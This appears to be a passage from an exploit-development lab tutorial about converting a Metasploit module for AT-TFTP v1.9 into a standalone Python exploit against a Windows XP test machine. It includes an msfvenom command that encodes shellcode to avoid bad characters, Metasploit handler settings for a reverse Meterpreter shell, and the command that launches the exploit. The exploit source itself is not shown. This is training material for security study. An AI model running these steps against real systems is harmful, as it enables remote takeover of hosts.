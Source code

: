 Encoding Shellcode

-In both our stack adjustment command and the payload itself, there are null characters which we need to remove. Msfencode comes to our rescue once again and we can reencode the payload without nulls.

strategicsec@ubuntu:~/toolz/metasploit$ cat shellcode | sudo ./msfvenom -b '\x00' -e x86/shikata_ga_nai -a x86 --platform win -f python



We can now cut and paste this shellcode into our python exploit. The final exploits look like the below.

Final Stand Alone Exploit





Running the Exploit


- Let’s test this against our Windows XP victim. Install AT-TFTP v1.9 from the link in the requirements. Ensure you unblock any firewall prompts to allow access. Because this is a staged payload, we need to set up Metasploit to catch the incoming shell. It will then send the second much larger buffer (770048 bytes) that we could never have fit into our exploit itself. Run the commands sequentially,

#msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_nonx_tcp
set LHOST 192.168.153.164
set LPORT 4443
exploit


- Now the fun stuff, we run the command,

# python at-tftp.py 192.168.153.164 69 192.168.153.163

- It goes without saying you should put in your own IP values, but it should maintain the format python. All going well, this is the result…


Congratulations, you’ve successfully modified your first Metasploit module into a standalone exploit.